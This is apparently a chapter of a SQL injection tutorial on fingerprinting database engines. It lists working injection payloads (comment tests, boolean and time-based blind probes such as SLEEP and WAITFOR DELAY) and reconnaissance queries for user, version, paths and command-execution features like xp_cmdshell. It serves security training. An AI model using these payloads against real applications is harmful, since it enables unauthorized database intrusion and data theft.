

# 05 - Database Fingerprinting

## Why Fingerprinting Matters

Every database has:

- Different syntax
- Different functions
- Different system tables
- Different capabilities

**Correct identification = correct payloads**

## Quick Identification Tests

### Test 1: Comment Styles

```sql
-- Test MySQL comment
' AND 1=1#                    → Works? MySQL likely
' AND 1=1--                   → Works? Generic SQL
' AND 1=1/*                   → Works? Generic SQL
```

### Test 2: Version Functions

| Payload                   | MySQL | PostgreSQL | MSSQL | Oracle | SQLite |
| ------------------------- | ----- | ---------- | ----- | ------ | ------ |
| `SELECT @@version`        | ✅    | ❌         | ❌    | ❌     | ❌     |
| `SELECT version()`        | ❌    | ✅         | ❌    | ❌     | ✅     |
| `SELECT @@VERSION`        | ❌    | ❌         | ✅    | ❌     | ❌     |
| `SELECT * FROM v$version` | ❌    | ❌         | ❌    | ✅     | ❌     |
| `SELECT sqlite_version()` | ❌    | ❌         | ❌    | ❌     | ✅     |

### Test 3: String Concatenation

```sql
-- MySQL
' AND CONCAT('a','b')='ab'--

-- PostgreSQL/Oracle
' AND 'a'||'b'='ab'--

-- MSSQL
' AND 'a'+'b'='ab'--
```

### Test 4: Error Messages

| Error Contains         | database      |
| ---------------------- | ------------- |
| `MySQL` or `maria`     | MySQL/MariaDB |
| `PostgreSQL` or `PG::` | PostgreSQL    |
| `Microsoft SQL Server` | MSSQL         |
| `ORA-` or `Oracle`     | Oracle        |
| `SQLite`               | SQLite        |

## Detailed Fingerprinting

### MySQL Identification

```sql
-- Version
SELECT @@version
SELECT version()

-- Specific features
SELECT @@datadir               -- Data directory
SELECT @@basedir               -- Base directory
SELECT @@port                  -- Port
SELECT @@hostname              -- Server name
SHOW VARIABLES LIKE '%version%'

-- User info
SELECT user()
SELECT current_user()
SELECT system_user()
SELECT database()
```

### PostgreSQL Identification

```sql
-- Version
SELECT version()

-- Specific features
SHOW server_version
SHOW data_directory
SHOW port
SHOW listen_addresses
SELECT current_database()
SELECT current_user
SELECT session_user
SELECT inet_server_addr()

-- Check extensions (useful for OOB)
SELECT * FROM pg_extension WHERE extname='dblink'
```

### MSSQL Identification

```sql
-- Version
SELECT @@VERSION
SELECT @@SERVERNAME

-- Specific features
SELECT DB_NAME()               -- Current database
SELECT SYSTEM_USER             -- Login name
SELECT USER_NAME()             -- Database user
SELECT @@SPID                  -- Process ID
SELECT @@LANGUAGE              -- Current language

-- Check features
SELECT * FROM sys.configurations WHERE name='xp_cmdshell'
```

### Oracle Identification

```sql
-- Version
SELECT * FROM v$version
SELECT banner FROM v$version WHERE rownum=1

-- Specific features
SELECT user FROM dual
SELECT SYS_CONTEXT('USERENV', 'CURRENT_USER') FROM dual
SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual
SELECT SYS_CONTEXT('USERENV', 'DB_NAME') FROM dual

-- Check packages (useful for OS command)
SELECT * FROM all_objects WHERE object_name='DBMS_XMLGEN'
SELECT * FROM all_objects WHERE object_name='UTL_HTTP'
```

### SQLite Identification

```sql
-- Version
SELECT sqlite_version()

-- Specific features
SELECT * FROM sqlite_master     -- Tables and schema
PRAGMA database_list            -- Attached databases
PRAGMA table_info(users)        -- Column info

-- SQLite-specific behavior
SELECT last_insert_rowid()
SELECT changes()
```

## Fingerprinting via Blind SQL Injection

### Boolean-Based Detection

```sql
-- MySQL (works)
' AND (SELECT COUNT(*) FROM information_schema.tables)>0--

-- PostgreSQL (works)
' AND (SELECT COUNT(*) FROM pg_catalog.pg_tables)>0--

-- MSSQL (works)
' AND (SELECT COUNT(*) FROM sys.tables)>0--

-- Oracle (works)
' AND (SELECT COUNT(*) FROM all_tables)>0--

-- SQLite (works)
' AND (SELECT COUNT(*) FROM sqlite_master)>0--
```

### Time-Based Detection

```sql
-- MySQL time function
' AND IF(1=1, SLEEP(5), 0)--

-- PostgreSQL time function
' AND CASE WHEN 1=1 THEN pg_sleep(5) ELSE 0 END--

-- MSSQL time function
' IF 1=1 WAITFOR DELAY '0:0:5'--

-- Oracle time function
' AND CASE WHEN 1=1 THEN DBMS_LOCK.SLEEP(5) ELSE 0 END--
```

## Database-Specific Characteristics

### MySQL Characteristics

| Feature     | MySQL Specific                              |
| ----------- | ------------------------------------------- |
| Limit       | `LIMIT offset,count`                        |
| Comment     | `#`, `-- `, `/* */`                         |
| Concat      | `CONCAT()`, `CONCAT_WS()`, `GROUP_CONCAT()` |
| Substring   | `SUBSTRING()`, `SUBSTR()`, `MID()`          |
| Time delay  | `SLEEP()`, `BENCHMARK()`                    |
| IF function | `IF(condition,true,false)`                  |

### PostgreSQL Characteristics

| Feature     | PostgreSQL Specific               |
| ----------- | --------------------------------- |
| Limit       | `LIMIT count OFFSET offset`       |
| Comment     | `-- `, `/* */`                    |
| Concat      | `\|\|`, `CONCAT()`, `CONCAT_WS()` |
| Substring   | `SUBSTRING()`, `SUBSTR()`         |
| Time delay  | `pg_sleep()`, heavy queries       |
| IF function | `CASE WHEN`                       |
| Casting     | `::int`, `::varchar`              |

### MSSQL Characteristics

| Feature         | MSSQL Specific                      |
| --------------- | ----------------------------------- |
| Limit           | `TOP count`, `ROW_NUMBER()`         |
| Comment         | `-- `, `/* */`, `;` stacked queries |
| Concat          | `+`, `CONCAT()` (2012+)             |
| Substring       | `SUBSTRING()`                       |
| Time delay      | `WAITFOR DELAY`, heavy queries      |
| IF function     | `IIF()` (2012+), `CASE WHEN`        |
| Stacked queries | `; SELECT ...`                      |

### Oracle Characteristics

| Feature     | Oracle Specific                         |
| ----------- | --------------------------------------- |
| Limit       | `ROWNUM`, `FETCH FIRST`                 |
| Comment     | `-- `, `/* */`                          |
| Concat      | `\|\|`, `CONCAT()`                      |
| Substring   | `SUBSTR()`                              |
| Time delay  | `DBMS_LOCK.SLEEP()`                     |
| IF function | `CASE WHEN`, `DECODE()`                 |
| FROM clause | Required even for constant: `FROM dual` |

## Version-Specific Capabilities

### MySQL Version Features

| Version | New Capabilities             |
| ------- | ---------------------------- |
| 4.x     | Basic SQLi                   |
| 5.0+    | Information schema available |
| 5.1+    | LOAD_FILE(), INTO OUTFILE    |
| 5.5+    | Enhanced stored procedures   |
| 8.0+    | Common table expressions     |

### PostgreSQL Version Features

| Version | New Capabilities         |
| ------- | ------------------------ |
| 8.x     | Basic SQLi               |
| 9.0+    | JSON support             |
| 9.3+    | COPY TO/FROM PROGRAM     |
| 9.4+    | Logical replication      |
| 10+     | Declarative partitioning |

### MSSQL Version Features

| Version | New Capabilities            |
| ------- | --------------------------- |
| 2000    | xp_cmdshell default enabled |
| 2005    | CLR integration             |
| 2008    | Extended events             |
| 2012    | IIF(), CONCAT()             |
| 2016+   | JSON support                |

## Fingerprinting Decision Tree



**Flowchart Reasoning:**

- **Sequential testing** from most common to least common databases
- **Version functions** are the fastest identifier - each DB has unique syntax
- **MySQL first** - most common in web applications
- **Blind fingerprinting** fallback when no version info available (errors suppressed)
- **Feature check** after identification to determine exploitation capabilities

## Practice Exercises

### Exercise 1: Quick Identify

Given error message:

```
ERROR: relation "users" does not exist
LINE 1: SELECT * FROM users
```

What database? (Hint: Error syntax)

### Exercise 2: Blind Fingerprint

Target blind SQL injection. Use time-based tests to identify database type.

### Exercise 3: Version Extraction

Extract exact version number and determine available features.

## Key Takeaways

1. **Fingerprint first** before exploit
2. **Syntax varies** by database significantly
3. **Features vary** by version
4. **Error messages** leak database type
5. **Blind tests** work when errors suppressed

## Next Step

Continue to [06 - Schema Enumeration](06-Schema-Enumeration.md) to extract database structure.
